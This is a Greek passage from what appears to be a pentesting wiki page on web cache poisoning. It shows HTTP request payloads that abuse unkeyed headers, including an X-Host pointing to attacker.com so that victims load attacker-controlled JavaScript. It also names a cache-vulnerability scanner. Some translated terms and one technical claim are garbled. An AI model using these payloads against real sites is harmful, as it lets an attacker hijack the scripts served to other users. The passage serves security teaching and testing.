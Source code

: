 ### Χρήση πολλαπλών κεφαλίδων για την εκμετάλλευση ευπάθειών στην προσπέλαση της cache του web <a href="#using-multiple-headers-to-exploit-web-cache-poisoning-vulnerabilities" id="using-multiple-headers-to-exploit-web-cache-poisoning-vulnerabilities"></a>

Μερικές φορές θα χρειαστεί να **εκμεταλλευτείτε πολλαπλές μη-κλειδωμένες εισόδους** για να μπορέσετε να καταχραστείτε μια cache. Για παράδειγμα, μπορείτε να βρείτε ένα **Ανοικτό ανακατευθύνση** αν ορίσετε το `X-Forwarded-Host` σε ένα τομέα που ελέγχετε εσείς και το `X-Forwarded-Scheme` σε `http`. **Αν** ο **διακομιστής** ανακατεύει όλα τα **HTTP** αιτήματα **σε HTTPS** και χρησιμοποιεί την κεφαλίδα `X-Forwarded-Scheme` ως το όνομα τομέα για την ανακατεύθυνση, μπορείτε να ελέγξετε προς πού θα οδηγηθεί η σελίδα με την ανακατεύθυνση.
```markup
GET /resources/js/tracking.js HTTP/1.1
Host: acc11fe01f16f89c80556c2b0056002e.web-security-academy.net
X-Forwarded-Host: ac8e1f8f1fb1f8cb80586c1d01d500d3.web-security-academy.net/
X-Forwarded-Scheme: http
```
### Εκμετάλλευση με περιορισμένο `Vary` header

Εάν ανακαλύψετε ότι το **`X-Host`** header χρησιμοποιείται ως **όνομα domain για τη φόρτωση ενός πόρου JS** αλλά το **`Vary`** header στην απόκριση υποδεικνύει **`User-Agent`**, τότε πρέπει να βρείτε έναν τρόπο να εξαγάγετε το User-Agent του θύματος και να δηλητηριάσετε τη μνήμη cache χρησιμοποιώντας αυτό το user agent:
```markup
GET / HTTP/1.1
Host: vulnerbale.net
User-Agent: THE SPECIAL USER-AGENT OF THE VICTIM
X-Host: attacker.com
```
### Εκμεταλλευόμενοι την Ατασθαλία της Κρυφής Μνήμης HTTP με την Κατάχρηση του Κλοπής HTTP Αιτημάτων

Μάθετε εδώ πώς να εκτελέσετε [επιθέσεις Κατάχρησης της Κρυφής Μνήμης με την Κατάχρηση του Κλοπής HTTP Αιτημάτων](http-request-smuggling/#using-http-request-smuggling-to-perform-web-cache-poisoning).

### Αυτοματοποιημένος Έλεγχος για την Κατάχρηση της Κρυφής Μνήμης του Web

Το [Εργαλείο Ευπαθειών της Κρυφής Μνήμης του Web](https://github.com/Hackmanit/Web-Cache-Vulnerability-Scanner) μπορεί να χρησιμοποιηθεί για τον αυτόματο έλεγχο της κατάχρησης της κρυφής μνήμης του web. Υποστηρίζει πολλές διαφορετικές τεχνικές και είναι υψηλά προσαρμόσιμο.

Παράδειγμα χρήσης: `wcvs -u example.com`
